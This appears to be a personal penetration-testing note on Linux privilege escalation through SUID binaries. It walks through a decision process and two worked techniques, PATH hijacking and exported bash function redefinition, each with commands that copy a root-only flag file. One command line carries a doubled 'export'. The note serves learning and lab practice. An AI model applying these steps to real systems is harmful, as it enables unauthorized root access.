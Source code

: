 # Privilege Escalation via SUID

---

## What is SUID?

See [[suid|here]].

---

## SUID Privilege Escalation Process

Abuse a SUID executable to perform actions as the owning user in order to elevate privileges.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Determine if the file can be exploited, based on:
		- Is the file a standard SUID executable?
			- Answer by comparing it to a list of SUID executables for the same operating system version and kinda by its nonexistence on [GTFOBins](https://gtfobins.github.io/)
		- Is the owning user valuable?
		- Can the SUID executable be exploited?
			- Search for a SUID entry on the executable on [GTFOBins](https://gtfobins.github.io/)
			- If it's not on GTFOBins, understand exactly what it's doing and attempt to exploit it manually
				- **Is a command in the SUID executable configured without an absolute path?**
					- [[suid-for-privesc#SUID Exploitation via PATH|SUID exploitation via PATH environment variable]]
				- **Is a command in the SUID executable configured with an absolute path?**
					- [[suid-for-privesc#SUID Exploitation via Bash Function Redefinition|SUID exploitation via bash function redefition]]
				- **Does a command in the SUID executable contain a wildcard (`*`)?**
					- Attempt to abuse [[bash#Wildcard Behavior|bash's wildcard behavior]] to perform an elevated action
				- **Does a command in the SUID executable fail to import a writable shared object file**?
					- Apply the [[shared-object-file-injection#Process|shared object file injection process]]

---

## SUID Exploitation via `$PATH`

If a target SUID executable runs a command **without an absolute path**, it will search each directory in the `$PATH` environment variable for the command.

Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], you could write your own malicious version of the command the SUID executable is attempting to run and then add its directory to the front of the `$PATH` environment variable. Then you could run the SUID executable and it would find your malicious version of the command before the legitimate one and execute it in the security context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command without an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	service apache2 start
	```

	- If the executable runs a command without an absolute path:
		- Write your own version of the command to any arbitrary directory
			- You could also write a [[elf-source|malicious ELF]]
		
		```bash
		$ echo '#!/bin/bash' > /home/tgihf/service
		$ echo 'cp /root/flag.txt /dev/shm/tgihf.txt' >> /home/tgihf/service
		$ chmod +x /home/tgihf/service
		```
		
		- Add your version of the command's directory to the front of the `$PATH` environment variable
		
		```bash
		$ export PATH=/home/tgihf:$PATH
		```
		
		- Run the SUID executable, which will run your version of the command in the security context of the SUID executable's owner
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```


---

## SUID Exploitation via Bash Function Redefinition

If a target SUID executable runs a command **with an absolute path**, you can define a malicious Bash function with the same name as the absolute path. Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], the SUID child process will inherit the function name. Thus, when the SUID executable runs the absolute path, it will actually execute the malicious Bash function you defined.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command with an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	/usr/sbin/service apache2 start
	```

	- If the executable runs a command with an absolute path:
		- Define a Bash function with the same name as the absolute path:
		
		```bash
		$ function /usr/sbin/service() { cp /root/flag.txt /dev/shm/tgihf.txt; }
		```
		
		- Export the function
		
		```bash
		$ export export -f /usr/sbin/service
		```
		
		- Run the SUID executable, which will run your malicious Bash function
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```
